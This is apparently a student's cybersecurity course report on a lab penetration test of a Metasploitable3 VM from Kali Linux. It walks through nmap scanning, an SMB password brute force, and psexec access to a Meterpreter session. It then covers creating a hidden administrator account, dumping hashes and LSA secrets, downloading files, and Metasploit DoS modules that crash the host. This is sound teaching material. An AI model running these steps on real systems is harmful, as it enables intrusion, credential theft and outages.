


# CyberSecurity Report: Penetration Testing on Metasploitable3

## Introduction

In this project I examine a practical penetration testing exercise during which a series of controlled attacks steps were carried out within a test environment. These steps represent a variation of some lab activities proposed in the *Hacking Lab* section of the course website. Two virtual machines are used, more specifically **Metasploitable3** is used as the target machine and **Kali Linux** as the attacking machine. 

This setup allows the simulation of a realistic environment in which an attacker could attempt to compromise a target system.

## Reconnaissance

As a first step, we need to determine our own(attacker) IP address and netmask in order to define the scope of the scan and discover available IP addresses that could potentially be targeted. This can be done by opening a terminal in the Kali Linux machine and executing the `ifconfig` command (*Fig. 1*). 

##### **Result:** 
We found out that the attacker machine has an IP address of 10.0.2.15 and a subnet mask of 255.255.255.0. This result indicates that the first 24 bits are used to identify the **network portion**, while the remaining 8 bits are allocated for the **individual hosts** within the network. This network can be represented as 10.0.2.0/24, meaning that the address range can cover all IP addresses from 10.0.2.1 to 10.0.2.254.

 

In order to determine which hosts are connected to this network we can execute `nmap 10.0.2.0/24`.

##### **Result:** 
As a result, multiple IP addresses were detected. This might have occured because the environment and both the machines were tested while the system was connected to a mobile hotspot via a smartphone. The active host at `10.0.2.4`, which has multiple open ports, is identified as our target machine (*Fig. 2*).

 

We can also perform a full scan on the target to gather as much information as possible,getting details about the running services, their versions and other additional information. This is done by using `nmap -sV -p- 10.0.2.4`, where:

  * **-sV:** Tells *Nmap* to perform service/version detection
  * **-p-:** It allows scanning all 65.535 ports, instead of just most commonly used ports.

## Initial access

Now that we have identified the IP address of the target machine, we can attempt to gain access by impersonating a legitimate user. One common method is to connect to the system via its SSH service using valid user credentials. However, this approach is not viable in our case, as there is no SSH service running on port 22 (*Fig. 2*), which prevents us from establishing any SSH connection with the target machine.

An alternative method for gaining initial access is to perform a brute-force attack against the SMB service(running on port 445) using a dictionary of usernames and passwords to obtain valid credentials. **SMB** is a network protocol used for sharing resources between computers. It operates on a client-server model and includes mechanisms for both user authentication and authorization.

##### **Dictionary creation:**
  First thing first, we need to construct a dictionary that can be obtained from the target's configuration page content. We do this by using the following command: `cewl -d 0 -w dictionary.txt https://github.com/rapid7/metasploitable3/wiki/Configuration`, which crawls a given web page and extracts useful words to build a dictionary file.
  
For the purposes of this project, to reduce the time required for exploitation, we can limit the dictionary to a maximum of 15 words. Additionally, we ensure that the following key terms are included in the list: *vagrant*, *administrator*, *Administrator*, and *sploit*.
  
##### **Exploit execution:**

  * **Launching Metasploit:** Starting Metasploit on the terminal using:`msfconsole -q`
  
  * **Using the SMB scanner:** Within Metasploit, we load the scanner `use auxiliary/scanner/smb/smb_login` 
  
  * **Target setup:** Defining IP address of target machine: `set RHOSTS 10.0.2.4`
  
  * **USERNAME/PASSWORD dictionaries setup:** `set USER_FILE /home/kali/dictionary.txt` & `set PASS_FILE /home/kali/dictionary.txt`
  
  * **Stopping on success:** Attack is stopped as soon as a valid credentials are found: `set STOP_ON_SUCCESS true`
  
To run the exploit, use `run`.

 

##### **Result:** 
We successfully obtained valid SMB login credentials with the username "vagrant" and password "vagrant". In our case, these credentials also provide access to the underlying Windows system. 

This is demonstrated by running another exploit using the Metasploit module `auxiliary/scanner/smb/smb_enumusers`. This module leverages valid SMB credentials(*Fig. 3*) to enumerate local user accounts stored in the target machine’s Security Account Manager (SAM) database.

## *PsExec Exploitation*

Using the credentials we obtained, we can exploit a known technique to execute remote commands on the target system. Specifically, we use **PsExec**, a legitimate Windows utility that allows administrators to run commands remotely on other machines. To leverage PsExec, valid credentials for a local administrator account on the target system are required. Once successfully exploited, PsExec can be used by a **penetration tester** to execute arbitrary code and potentially escalate access to other users on the system. The service runs on port 445, which was confirmed to be open during the earlier reconnaissance phase.

##### **Exploit execution:**
The exploitation is done by using the "PsExec module", which is `exploit/windows/smb/psexec`. 

  * **Loading the module:** Within Metasploit we load the module `use exloit/windows/smb/psexec`.
  
  * **Target setup:**  Defining IP address of target machine: `set RHOSTS 10.0.2.4`.
  
  * **Port setup**: Configuring the port on which the service runs:  `set RPORT 445`.
  
  * **Credentials setup:** Configuring the username and password for the remote connection:`set SMBUser vagrant` & `set SMBPass vagrant`.
  
To run the exploit, use `run`.

##### **Results:**
  We successfully gained remote access to the target system. The exploit was carried out using valid SMB credentials(*vagrant:vagrant*). The PsExec module initiated a reverse TCP connection to the Kali machine on port 4444, and a Meterpreter session was successfully established. After gaining access we checked our level of privilege by executing the `getuid` command, confirming that we had obtained **NT Authority/SYSTEM-level** privileges, the highest level of access on a Windows machine. 
  
This level of access provides complete control over the system, allowing us to execute arbitrary commands, manage files, create and modify user accounts, and carry out post-exploitation activities:

####  **1. Creating user and assigning administrative privileges**
We are able to create a new user account without raising any immediate alerts. Firstly, I had to establish a standard Windows shell by using the `shell` command. Once inside the Windows shell, I executed the command `net user lucas pwd-lucas /add`  to create a new user account named lucas with the password pwd-lucas. To elevate this account's privileges, I then ran `net localgroup administrators lucas /add`, effectively adding the user to the Administrators group and granting it full administrative rights on the system.

The second command can also be used to [elevate an existing user](#password-hash-dumping) by adding them to the Administrators group.

After creating a new Administrator account or promoting an existing user to Administrator, the original built-in Administrator account **can be disabled**. This can be done using the command: `net user administrator /active no`.

 
  
####  **2. Password Hash Dumping**
We can extract password hash dumps from the memory and attempt to decrypt them to retrieve account passwords. This can be done by running the `hashdump` command in a Meterpreter session:

 
  
#### **3. Data exfiltration** 
One of the most valuable post-exploitation activities that we can perform is **accessing and exfiltrating sensitive files** from the system. We can easily identify directories that are likely to contain sensitive information, such as folders that contain work-related documents, saved passwords in text files and internal process documents. 

In my case, I have used the `download` command to recursively copy selected directories from the vagrant user's profile on the target machine to the Kali system.

 

#### **4. Enhanced Reconnaissance with SYSTEM-Level Access**  
After gaining NT Authority/SYSTEM privileges, we can perform more thorough reconnaissance and identify which exploits are most likely to succeed. We can have deeper visibility into the system's configuration and security settings. This can be performed when executing `run post/multi/recon/local_exploit_suggester`:

#### **5. LSA Secrets and SAM Extraction**
We are also able to retrieve **LSA(Local Security Authority) secrets**, which are stored in the Windows Registry under `HKEY_LOCAL_MACHINE\SECURITY`. This is a registry that contains sensitive data such as security policies, default configurations and cached logon credentials. It also holds a copy of the **SAM** database, although it cannot be directly modified.

The LSA secretscan be discovered by executing `run post/windows/gather/lsa_secrets`:

 

## *Dos attack*
During the assessment, I explored two well known Denial of Service vulnerabilities, both affecting different components of the Windows operating system.

#### **MS12-020**
This vulnerability targets the **Remote Desktop Protocol**. By constructing a specially formatted RDP packet, we are able to simulate how an attacker could cause the system to crash or become unresponsive. The procedure is the following:

  * We first search if the exploit is available in Metasploit, if present then we use the module `auxiliary/dos/windows/rdp/ms12_020_maxchannelids`
  
  * The RHOSTS are configured to be the target machine: `10.0.2.4`.

#### **MS15-034**
The second vulnerability affects the HTTP.sys driver, which is used by Windows web servers to process HTTP requests. By sending a specifically crafted HTTP request with a malicious range header, we could demonstrate how an attacker might crash the web server. The procedure follows a similar pattern as the before mentioned vulnerability.

  * The module used is: `auxiliary/dos/http/ms15_034_ulonglongadd`
  
  * The RHOSTS are once again configured to `10.0.2.4`
  

 
  

##### **RESULT:**
In both cases, the exploits caused the system to crash, resulting in a blue screen error followed by an automatic restart of the Windows operating system. 

## Conclusion
Using Kali Linux, I conducted a penetration test on the Metasploitable3 virtual machine, which exposed multiple high-risk vulnerabilities. By performing brute-force attacks, I successfully obtained valid SMB credentials, which enabled remote access through a Meterpreter session. The project demonstrates that there must be a basic security hygiene in a system, such as network monitoring, usage of strong and unique passwords, and restricting the access to sensitive services. Integrating regular security inspections and patch management into the organization's defensive strategy can significantly reduce the attack surface.

### Bibliography

Bartoli Alberto - Cybersecurity Course, Hacking Lab  
https://bartolialberto.github.io/CybersecurityCourse/Hacking/Metasploitable3%20demo/#discovery

ChatGPT  
https://chatgpt.com/

SMB CRACKING  
https://www.hackingarticles.in/password-crackingsmb/

H Sharma - Exploiting vulnerabilities of Metasploitable3  
https://era.library.ualberta.ca/items/ada5c209-9f7c-4406-bddb-656821859523/view/2ba00c1e-f7a2-4d86-8cb8-c1d70e62cdc2/Sharma_2020_Fall_MISSM.pdf

